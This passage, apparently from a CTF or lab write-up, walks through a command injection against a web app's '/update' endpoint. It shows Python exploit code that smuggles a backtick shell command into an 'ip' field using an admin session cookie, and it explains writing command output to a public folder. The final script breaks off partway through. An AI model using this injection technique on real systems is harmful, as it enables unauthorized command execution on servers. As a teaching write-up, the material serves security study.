 ```python
              , 'ip'   : '192.168.3.10\n`sleep 5`'
              , 'ttl'  : '600'
              }

    resp = requests.post(URL + '/update', cookies=admin_cookie, data=payload)

    print(resp.text)

def help():
    print(__doc__, file=sys.stderr)
    exit(1)

if __name__ == "__main__":
    if len(sys.argv) != 2:
        help()

    with open(sys.argv[1]) as file:
        cookie = file.read().rstrip()

        inject_command(cookie)

```

The server delayed in our response. Let's parameterize the command
in our script and try to get the results of `pwd`.

Running our script with the `pwd` command resulted in a this response:

```html
<div class="alert-message error">
  incorrect section name: &#x2F;var&#x2F;www syntax error
</div>
```

So now we know we're in the `/var/www/` folder in the server. However when we
do `ls` or anything wil multile lines of output we're gonna be limited
to seeing only the first thing. So let's try to output the results of the
command into a publicly reachable file then pull down that file and print it.

First, we need to find out where the public files are stored. We know we can
pull down the style sheets no problem, so we should output the results into the same folder.

![css-file](/assets/images/posts/rcci/css-files.png)

Usually they're stored in the `public/` folder. Running our script with
`ls public/` returns us the file we wanted. So lets output our results into
the public folder and also make the program interactive.

After refactoring and cleaning up this is the final exploit script.

```python
#!/usr/bin/env python3

import sys
import bs4
import requests

OUTPUT_FILE = '.keep'
OUTPUT_PATH = '/var/www/public/'
URL = 'http://localhost:8000/'

def inject_command(cookie, command):

    admin_cookie = { 'rack.session' : cookie }

    output = OUTPUT_PATH + OUTPUT_FILE

```
